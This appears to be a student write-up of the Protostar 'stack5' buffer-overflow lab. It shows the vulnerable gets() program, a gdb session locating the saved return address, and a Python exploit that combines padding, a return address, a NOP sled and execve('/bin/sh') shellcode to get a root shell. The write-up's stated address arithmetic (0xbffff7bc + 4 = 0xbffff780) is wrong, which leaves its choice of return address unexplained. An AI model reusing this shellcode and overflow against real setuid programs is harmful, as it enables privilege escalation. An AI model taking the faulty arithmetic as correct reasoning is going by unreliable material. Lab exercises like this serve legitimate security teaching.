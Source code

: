 # Stack5

URL: https://exploit.education/protostar/stack-five/
Stack5 is a standard buffer overflow, this time introducing shellcode.

This level is at /opt/protostar/bin/stack5

Hints

- At this point in time, it might be easier to use someone elses shellcode
- If debugging the shellcode, use \xcc (int3) to stop the program executing and return to the debugger
  remove the int3s once your shellcode is done.
- Source code

```
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  char buffer[64];

  gets(buffer);
}
```

# Writeup

Here we have to use the shell code
Steps to follow:

1. check for the padding using random string and you will get the padding from the `$eip` and `$ebp` pointer
2. we have to get the address from where we can enter our shell
3. thirdly, we will get error in our method and after debugging I found out that, the address is different, so we have to use `NOP` for that.

So let us start from GDB.

```
(gdb) disassemble main
Dump of assembler code for function main:
0x080483c4 <main+0>:    push   %ebp
0x080483c5 <main+1>:    mov    %esp,%ebp
0x080483c7 <main+3>:    and    $0xfffffff0,%esp
0x080483ca <main+6>:    sub    $0x50,%esp
0x080483cd <main+9>:    lea    0x10(%esp),%eax
0x080483d1 <main+13>:   mov    %eax,(%esp)
0x080483d4 <main+16>:   call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:   leave
0x080483da <main+22>:   ret
End of assembler dump.
(gdb) break *0x080483d9
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
(gdb) r
Starting program: /opt/protostar/bin/stack5
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTT

Breakpoint 1, main (argc=0, argv=0xbffff864) at stack5/stack5.c:11
11      stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
(gdb) x/24x $esp
0xbffff760:     0xbffff770      0xb7ec6165      0xbffff778      0xb7eada75
0xbffff770:     0x41414141      0x42424242      0x43434343      0x44444444
0xbffff780:     0x45454545      0x46464646      0x47474747      0x48484848
0xbffff790:     0x49494949      0x4a4a4a4a      0x4b4b4b4b      0x4c4c4c4c
0xbffff7a0:     0x4d4d4d4d      0x4e4e4e4e      0x4f4f4f4f      0x50505050
0xbffff7b0:     0x51515151      0x52525252      0x53535353      0x54545454
(gdb) info frames
Undefined info command: "frames".  Try "help info".
(gdb) info frame
Stack level 0, frame at 0xbffff7c0:
 eip = 0x80483d9 in main (stack5/stack5.c:11); saved eip 0x54545454
 source language c.
 Arglist at 0xbffff7b8, args: argc=0, argv=0xbffff864
 Locals at 0xbffff7b8, Previous frame's sp is 0xbffff7c0
 Saved registers:
  ebp at 0xbffff7b8, eip at 0xbffff7bc
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x54545454 in ?? ()
(gdb) c
Continuing.

Program terminated with signal SIGSEGV, Segmentation fault.
The program no longer exists.
(gdb)
(gdb)
(gdb)
(gdb)
(gdb) r
Starting program: /opt/protostar/bin/stack5
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS

Breakpoint 1, main (argc=1, argv=0xbffff864) at stack5/stack5.c:11
11      in stack5/stack5.c
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0xb7eadc03 in __libc_start_main (main=Cannot access memory at address 0x5353535b
) at libc-start.c:187
187     libc-start.c: No such file or directory.
        in libc-start.c
(gdb) c
Continuing.

Program terminated with signal SIGSEGV, Segmentation fault.
The program no longer exists.
(gdb) c
The program is not being run.
(gdb)
The program is not being run.
(gdb)
The program is not being run.
(gdb) r
Starting program: /opt/protostar/bin/stack5
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSS

Breakpoint 1, main (argc=1, argv=0xbffff864) at stack5/stack5.c:11
11      stack5/stack5.c: No such file or directory.
        in stack5/stack5.c
(gdb) info frame
Stack level 0, frame at 0xbffff7c0:
 eip = 0x80483d9 in main (stack5/stack5.c:11); saved eip 0xb7eadc00
 source language c.
 Arglist at 0xbffff7b8, args: argc=1, argv=0xbffff864
 Locals at 0xbffff7b8, Previous frame's sp is 0xbffff7c0
 Saved registers:
  ebp at 0xbffff7b8, eip at 0xbffff7bc
```

From this, we can say that the offset is `76` and the `$eip` pointer will be 4 bytes after the current `$eip`, so `0xbffff7bc` + `4` = `0xbffff780`.

Then as per the discussion, we will append `NOP` the the hex value of `NOP` is `\x90` and will add 100 times (it doesn't matter how many time we add NOP)

Then adding shellcode from the `shell storm` website.

Therefore, the exploit will be

```
user@protostar:/tmp$ cat exploit.py
import struct
padding = '\x41'*76
eip = struct.pack("I", 0xbffff780)
nop = "\x90" * 100
shellcode = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"

print padding + eip + nop + shellcode
```

---

Solution:

```
user@protostar:/tmp$ (python exploit.py && cat) | /opt/protostar/bin/stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
```
